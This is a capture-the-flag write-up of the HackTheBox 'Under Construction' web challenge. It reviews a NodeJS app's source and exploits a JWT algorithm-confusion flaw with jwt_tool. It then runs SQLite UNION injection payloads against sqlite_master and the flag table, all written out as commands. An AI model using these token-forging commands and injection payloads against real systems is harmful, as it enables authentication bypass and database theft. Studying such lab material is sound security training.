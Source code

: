 ```yaml
---
Platform: HackTheBox
Category: Web
Difficulty: Medium
Status: Rooted/Finished
Type: Challenge
Title: Under Construction
tags: 
CreatedOn: 04-12-2023
---
```

# Under Construction

**Link to the Challenge:** [https://app.hackthebox.com/challenges/111](https://app.hackthebox.com/challenges/111)

  

First download the given file.

The give file is a zip file. Extract the zip file using the following command and the given password:

Command: `unzip <zip_file>`

password: `hackthebox`

  

The zip file contains the source code of a web application based on NodeJS and ExpressJS.

I started investigating from the `index.js` file from the root directory.

![[Under Construction/assets/Untitled.png]]

From this, we can infer that `./routes` folder for handling the requests. Next I checked the routes folder and found another `index.js` file in the routes folder.

![[Under Construction/assets/Untitled 1.png]]

From the `index.js` file from the routes folder, we can see that it uses the `AuthMiddleware`, `JWTHelper` and `DBHelper` files to perform all the actions.

So, next I checked the `AuthMiddleware` file.

![[Under Construction/assets/Untitled 2.png|Untitled 2.png]]

This file also used the `JWTHelper` to check whether the tokens are valid.

On taking a look at the `JWTHelper` file,

![[Under Construction/assets/Untitled 3.png|Untitled 3.png]]

we can see that it uses the `jsonwebtoken` library to generate token and sign tokens. As we can see two files, `privatekey` and `publickey` are read from the file system and it uses the `privatekey` to sign the data in the `sign()` function and it uses the public key to decode in the `decode()` function, we can devise that it uses asymmetric encryption to encrypt the tokens.

And also you can see that the sign function uses `RS256` algorithm to sign whereas the decode method allows both `RS256` and `HS256` algorithms to verify the token.

This leads to the **Algorithm Confusion Attack**: [https://portswigger.net/web-security/jwt/algorithm-confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)

  

Let’s take a look at the `DBHelper.js` file.

![[Under Construction/assets/Untitled 4.png|Untitled 4.png]]

The server uses the `sqlite` database of version `sqlite3`. You can also see that the username variable in the `getUser` method is declared explicitly in the SQL request without proper code sanitation, which leads to SQL Injection.

  

From the given source code, we have inferred the following:

- The application is vulnerable to `Algorithm Confusion Attack`
- The application is also vulnerable to `SQL Injection Attack`

  

First we need a valid token to perform SQL Injection Attack on the username field. To create a valid token we can use `JWT_TOOL` ( [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) ) to create a valid token. For that first we need a valid token from the website.

Now start the instance in hackthebox and visit the website.

![[Under Construction/assets/Untitled 5.png|Untitled 5.png]]

You can see that the website has a simple login page. Register a new user and login to get a valid session token.

![[Under Construction/assets/Untitled 6.png|Untitled 6.png]]

![[Under Construction/assets/Untitled 7.png|Untitled 7.png]]

![[Under Construction/assets/Untitled 8.png]]

After logging in, check the `Application` tab in the dev tools of your browser.

![[Under Construction/assets/Untitled 9.png]]

You can see a session token is generated for the current logged in user. Now copy this token and go to [https://jwt.io/](https://jwt.io/) website to decode this token. Paste the token in the Encoded tab and check the Decoded tab. Also store this token in a file in your local machine, I have save it in a file named `sessionToken`.

![[Under Construction/assets/Untitled 10.png]]

You can see that the `Header` section has the algorithm that is being used and the `Payload` section has the `username` field and the Public Key which is used to verify the token according to the decode function in the `JWTHelper.js` which we saw in the source code.

  

Now copy the value of `pk` and paste it in a file in your local machine and replace all the `\n` characters in the Public Key with a new line, since a general Public key will be stored in such format. The server uses the public key which is stored in the server to verify the token, not the public key from this token.

So the Public key that we are going to use should exactly match the public key that is stored in the server for the attack to work.

After replacing the `\n` characters in the public key, your key should look like this:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```

  

Now to verify whether this key is working, copy this key and go to the [`jwt.io`](http://jwt.io) website and paste the public key in the verify signature tab and check whether the Signature is Verified.

![[Under Construction/assets/Untitled 11.png]]

Now we got the Public Key. Next we have to create valid `JWT` tokens, using `JWT_tool`, so that we can bypass authentication.

  

Now open `burpsuite` and capture the login request and send it to the repeater tab.

First do the `login`, intercept the request with burpsuite and forward the `POST` request, then capture the next immediate `GET` request to `/`

![[Under Construction/assets/Untitled 12.png]]

  

Now, its time to generate a token using `jwt_tool`. Use the following command to generate a token:

```
jwt_tool $(cat sessionToken) -I -pc username -pv someone -X k -pk ./publickey

// Here 
// $(cat sessionToken) : The session token that you got from a valid login
// -I : Inject
// -pc : variable to inject
// -pv : value of the variable to be injected
// -X : Exploit type
// k : Key-Confusion attack
// -pk : public key that we have extracted from the token
```

![[Under Construction/assets/Untitled 13.png]]

Now copy this token and replace with the session token in the burpsuite repeater tab and send the request:

![[Under Construction/assets/Untitled 14.png]]

We got the response back and the attack was successful.

  

Now we have to perform the SQL Injection attack on the username field. You can find some useful payloads for SQLite 3 injection [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/SQLite Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

  

First we have to find the number of columns. You can do this by using the following command:

`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,1,1--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 15.png]]

Now send a request using this token.

![[Under Construction/assets/Untitled 16.png]]

The request is valid and we got a response back. From this we can devise that the database is containing three columns.

Now we can get the table using the following command:`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(tbl_name),1 from sqlite_master--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 17.png]]

Now send the request.

![[Under Construction/assets/Untitled 18.png]]

  

Next we have to find the columns for the above found tables. You can do this by executing sql command:

`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(sql),1 from sqlite_master--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 19.png]]

Now send the request.

![[Under Construction/assets/Untitled 20.png]]

From the response we can see that the `flag_storage` table has the flag `top_secret_flag`.

Now to get the flag, use the following command:

`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(top_secret_flaag),1 from flag_storage--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 21.png]]

Now send the request.

![[Under Construction/assets/Untitled 22.png]]

We successfully got the flag…..

  

Thank You !!!!!!